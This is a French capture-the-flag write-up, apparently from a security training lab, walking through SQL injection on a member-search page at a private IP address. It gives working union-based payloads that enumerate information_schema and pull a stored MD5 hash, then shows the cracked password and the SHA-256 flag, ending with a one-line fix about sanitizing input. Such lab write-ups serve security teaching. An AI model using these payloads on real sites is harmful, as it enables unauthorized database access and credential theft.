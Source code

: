 sur http://192.168.99.102/?page=member

On peu voir un field pour rechercher par Id.

Si on entre 1 OR 1 = 1:
First name: Flag
Surname : GetThe

On peux voir qu'un first name est "Flag"

Avec la requete suivante: 
```sql
1 AND MID(VERSION(),1,1) = 5;
```

On obtiens la version de mysql... pas utile 


Avec la requete suivante: 
```sql
1 UNION SELECT * FROM Users
```

on obtiens une erreur: Table 'Member_Sql_Injection.Users' doesn't exist
on en deduis le nom de la db: Member_Sql_Injection


```sql
1 UNION SELECT * FROM Users
1 AND 1=2 UNION SELECT * FROM information_schema.columns
```

Nous avons une erreur:
The used SELECT statements have a different number of columns

parce que "select * from ..." est la sélection de toutes les colonnes du tableau des users.
c'est pourquoi lorsque nous avons essayé d'unir plus de 2 colonnes avec elle, nous avons cette erreur.

En essayant de select que deux colonnes avec cette commande:
```sql
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
```

Nous affiche toutes les tables et colonnes
On peux voir la table qui nous interesse ici c'est: Users
qui contient les colonnes suivantes:
user_id
first_name
last_name
town
country
planet
Commentaire
countersign

testons alors les deux dernieres qui ont l'air suspectes.... :

```sql
1 AND 1 = 2 UNION SELECT countersign, Commentaire FROM users
```
bingo !


```
First name: 5ff9d0165b4f92b14994e5c685cdce28
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !


5ff9d0165b4f92b14994e5c685cdce28: FortyTwo
=> lower + sh256 = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

### Amelioration

Gerer les sqli, protegers les strings envoyer en request.


